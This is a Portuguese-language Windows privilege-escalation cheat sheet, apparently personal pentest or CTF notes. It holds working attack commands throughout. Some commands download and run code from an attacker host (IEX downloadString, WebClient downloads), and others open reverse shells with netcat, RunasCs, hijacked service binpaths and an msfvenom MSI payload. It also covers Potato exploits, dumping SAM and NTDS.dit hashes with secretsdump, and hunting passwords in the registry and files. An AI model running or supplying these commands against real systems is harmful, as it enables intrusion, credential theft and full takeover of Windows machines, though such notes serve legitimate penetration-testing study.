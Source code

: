 # Windows PrivEsc

## Checklist

- [ ] [**Permissão do usuário**](#permissao-de-usuario)
- [ ] [**Navegar nos diretórios do usuário**](#navegacao-diretorios)
- [ ] [**WinPeas e PowerUp**](#winpeas-e-powerup)
- [ ] [**Senhas salvas no registro**](#credenciais-no-registro)
- [ ] [**Enumerar serviços locais/restritos**](#enumeracao-de-servicos)
- [ ] [**Enumerar scheduled tasks/tarefas agendadas**](#scheduled-tasks)
- [ ] [**Versão de kernel**](#versao-de-kernel)
- [ ] [**Reutilização de credenciais já obtidas**](#reuso-de-senha)
- [ ] [**Explorando Unquoted Service Path**](#unquoted-service-path)
- [ ] [**Enumeração de processos da máquina**](#enumeracao-de-processos)
- [ ] [**AlwaysInstallElevated**](#alwaysinstallelevated)
- [ ] [**Credenciais em cache**](#credenciais-em-cache)
- [ ] [**Enumerar dispositivos da máquina**](#enumerar-dispositivos-da-maquina)
- [ ] [**Enumerar senhas por meio de arquivos de configuração, anotações de usuários, etc...**](#enumeracao-de-senhas)
- [ ] [**Permissionamento de arquivos**](#permissionamento-de-arquivos-e-pastas)

Depois considerar esse link para verifcar uma ferramenta para obtenção de credencais em processos como firefox chrome e afins...

https://github.com/putterpanda/mimikittenz

<details markdown="1"><summary markdown="1">
## Permissão de usuário
</summary>

Aqui estamos a procura de permissões tais como:

SeImpersonate
SeDebug
SeBackup

Existem outros que podem ser explorados também, porém esses são o suficiente por enquanto:

**SeImpersonate**

```
whoami /priv
```

Aqui vale considerar os exploits Potatoes:

```
PrintSpoofer32.exe -i -c powershell
```

O exploit abaixo tem que considerar as portas abertas no firewall para ele funcionar adequadamente:

```
./jp.exe -t * -p c:\temp\s.bat [-l porta]
```
```
whoami /priv

SeImpersonate

PrintSpoofer32.exe -i -c powershell

JuicyPotato.exe -t * -p shell.bat -l 4444

jp.exe -t * -p shell.bat -l 4444

whoami /all

SE IMPERSONATE
```

**LEMBRAR DE QUE AS PORTAS UTILIZADAS NO COMANDO DEVEM ESTAR LIBERADAS NO FIREWALL.**

Esse juicyPotato que funcionou é o que se encontra neste link:

[https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip](https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip)

**SeBackup**

Aqui podemos fazer uma cópia dos arquivos system e sam para a máquina do atacante para quebrar os hashes de senha ou utilizá-los para fazer os ataques pass the hash:

```
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

**Observação de que no cenário de Domain Controller, temos de considerar a cópia do NTDS.DIT seguindo as seguintes etapas:**

Fazer um arquivo com o seguinte conteúdo:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```
Antes de transferir o arquivo para a máquina alvo, precisamos fazer uma conversão para ficar tudo ok:

    unix2dos test.dsh

Se atentar somente ao diretório direitinho no qual se está operando: Baixar os arquivos system e ntds.dit para a máquina do atacante e executar o secretsdump localmente da seguinte maneira:

```
diskshadow /s test.dsh
robocopy /b z:\windows\ntds . ntds.dit
reg save hklm\system c:\Temp\system
```

Já na máquina do atacante, podemos executar o seguinte:

    impacket-secretsdump -ntds ntds.dit -system system local

</details>

<details markdown="1"><summary markdown="1">
## Navegação diretórios
</summary>

 Navegar nos diretorios do usuario para ver se existe algo ali que possa nos fornecer uma credencial ou algum bionario que inicie um servico/programa vulneravel a escalacao de privilegio

**Verificar se dentro do C:/ também existe algo.**

cmd

```
dir /s /b /a:-d-h \Users\usuario | findstr /i /v "appdata"
```
Mais abrangente:
```
cd c:\users
dir /s
```
```
cd c:/
dir
```

Powershell
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Procurar por arquivos específicos
```
cd c:\users
cgi -recurse
```
Procurar por arquivos específicos
```
gci -recurse -filter <file_name> [-Path]
```
Procurar por programas instalados que sejam exploráveis
```
gci 'c:\program files','c:\program files (x86)' | ft name, path, lastwritetime
```
Exemplos:

![qownnotes-media-PvAXBV](../../../media/qownnotes-media-PvAXBV.png)

Exemplos que não são exploráveis:

![qownnotes-media-QpQnUo](../../../media/qownnotes-media-QpQnUo.png)

![qownnotes-media-vflhHT](../../../media/qownnotes-media-vflhHT.png)

</details>

<details markdown="1"><summary markdown="1">
## Winpeas e PowerUp
</summary>

Rodar um scan automatizado. Lembrando que esses scans são pegos por antivírus, então a abordagem manual sempre é mais interessantes em pentests de produção.
Verificar se existe algum servico disponivel para exploracao com permissoes demais. Aqui temos que usar o accesschk.

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
./w.exe
```

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
. ./p.ps1]
invoke-allchecks
```
</details>

<details markdown="1"><summary markdown="1">
## Credenciais no registro
</summary>
```
reg query HKLM /f *password* /t REG_SZ /s

reg query HKLM /f teamviewer /t REG_SZ /s

reg query HKCU /f password /t REG_SZ /s
```

### Autologon

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

reg query HKLM\SOFTWARE\Wow6432Node\TeamViewer\Version7 /v SecurityPasswordAES

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -ErrorAction SilentlyContinue).DefaultUserName   

(Get-ItemProperty -Path "HKLM:SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -ErrorAction SilentlyContinue).DefaultPassword   
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de Serviços
</summary>

Checar os servicos que estao rodando na maquina para ver se temos permissao de alteracao em algum deles

A presença de interfaces virtuais pode aferir a ideia de existir máquinas virtuais na máquina ou de anti vírus instalado

Esse comando enumera as conexões e portas abertas, pelas quais são fornecidos os serviços de rede tais como banco de dados, aplicações web e/ou serviços que estajam vulneráveis a algum tipo de exploit público, por exemplo .
Pesquisando a respeito do serviço, podemos encontrar fragilidades que podemos explorar para escalar privilégios na máquina. Mas, claro, sempre visando serviços que rodam em modo system (que é nosso alvo)

    netstat -ano

O comando abaixo exige privilégio administrativo

    netstat -anb

Enumerando as interfaces de rede

    ipconfig /all
    route print

### Weak service permissions

![qownnotes-media-jCADRm](../../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula

Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc
</details>

<details markdown="1"><summary markdown="1">
## Scheduled Tasks
</summary>


```
schtasks /query /fo LIST /v

schtasks /query /fo LIST /v > schtasks.txt
copy schtasks.txt \\10.10.14.17\smb\scht.txt

dos2unix scht.txt
cat scht.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM
```

![qownnotes-media-MkSFLk](../../../media/qownnotes-media-MkSFLk.png)

![qownnotes-media-eaAziX](../../../media/qownnotes-media-eaAziX.png)

![qownnotes-media-aeBsJo](../../../media/qownnotes-media-aeBsJo.png)

![qownnotes-media-bOauze](../../../media/qownnotes-media-bOauze.png)

Usando accesschk.exe

```
accesschk.exe /accepteula -quvw <username> <filename>
```

![qownnotes-media-JfEeCP](../../../media/qownnotes-media-JfEeCP.png)
</details>

<details markdown="1"><summary markdown="1">
## Versão de kernel
</summary>
https://github.com/SecWiki/windows-kernel-exploits

    Winver 
ou

    systeminfo

ou

    ver
```
systeminfo > si.txt
copy si.txt \\10.10.14.17\smb\si.txt
```

Na máquina do atacante podemos utilizar o Windows Exploit suggester (wes):

### Windows Exploit Suggester

```
pip install wesng

sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes

wes --update
dos2unix si.txt
wes si.txt
```

**Não menos importante, podemos fazer pesquisas no google também**

</details>

<details markdown="1"><summary markdown="1">
## Reuso de senha
</summary>
```
$password = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5:8000/shell2.ps1')" -Credential $cred
```

Outra opção seria:

```
$username = "arkham\batman"
$password = "Zx^#QZX+T!123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
new-pssession -computername . -credential $cred
```
Ainda outra opção seria com runas:

```
runas /user:acosta ".\nc64.exe -e C:\windows\system32\cmd.exe 192.168.0.165 8083"
```
Existe um runas compilado que pode ser encontrado em:
https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip

```
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> cmd
.\runasCs.exe username password -r <IP_ATACANTE>:<porta_atacante> powershell
```
</details>

<details markdown="1"><summary markdown="1">
## Unquoted Service Path
</summary>
cmd

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```
Podemos utilizar uma abordagem com o registro do Windows também:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\

Para ter um pouco mais de precisão, podemos utilizar findstr:

    reg query HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ | findstr "<nome_do_serviço>"


Powershell

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de processos
</summary>
```
get-process
wmic process
tasklist
tasklist /svc
tasklist /v /fi "username eq system"
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

    Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

</details>
<details markdown="1"><summary markdown="1">
## AlwaysInstallElevated
</summary>
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_Atacante> LPORT=<Porta> -a x64 --platform Windows -f msi -o bin.msi
```

Baixar para a máquina da vítima o ".msi"

    msi /i bin.msi
</details>

<details markdown="1"><summary markdown="1">
## Credenciais em cache
</summary>
```
cmdkey /list
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```
</details>

<details markdown="1"><summary markdown="1">
## Enumerar dispositivos da máquina
</summary>

```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object Display Name, Start Mode, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```
```
wmic logicaldisk get deviceid, volumename, description

#powershelll
powershell -c get-psdrive -psprovider filesystem

mountvol
```
Depois de enumerar, eh interessante montarmos o volume pra verificar se temos algo.

mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\

    mountvol

Depois dee enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\
</details>

<details markdown="1"><summary markdown="1">
## Enumeração de senhas
</summary>
    findstr /si password *.doc *.txt *.ini *.config
    
    gci -recurse -filter passwd*
    
    dir /s *pass* == *cred* == *ssh* == *.config*
    
    reg query HKLM /f *password* /t REG_SZ /s
    
    reg query HKLM /f teamviewer /t REG_SZ /s
    
    reg query HKCU /f password /t REG_SZ /s
    
    
    Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
    
    driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
    
    Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName,DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
</details>

<details markdown="1"><summary markdown="1">
## Permissionamento de arquivos e pastas
</summary>
```
(new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')

.\a.exe -uwqs -accepteula Users c:\*.*
.\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

Full name

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
</details>

## Pontos de atenção

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.






## Binary planting

```
sc config [service_name] binpath= "C:\temp\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]
```

Uma vez obtido system na máquina, é possível extrair a SAM da seguinte maneira:

por meio dos registros:

Na máquina vítima

```
reg save HKLM\SAM \\10.10.14.11\smb\sam
reg save HKLM\SYSTEM \\10.10.14.11\smb\system
```

Na máquina atacante:

```
impacket-secretsdump -sam sam -system system local
```

Acessando diretamente a o hard drive da máquina:

```
sudo guestmount --add '/tmp/smb/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd' --inspector --ro -v /mnt/vhd

cp vhd/Windows/System32/config/SAM /home/acosta/Downloads
cp vhd/Windows/System32/config/SYSTEM /home/acosta/Downloads
impacket-secretsdump -sam SAM -system SYSTEM local
```

ou até mesmo fazendo o port forwarding

## Enumeração de regras de firewall

    netsh advfirewall show currentprofile
    
    netsh advfirewall firewall show rule name=all
    
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name


## Writable files
 
     Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
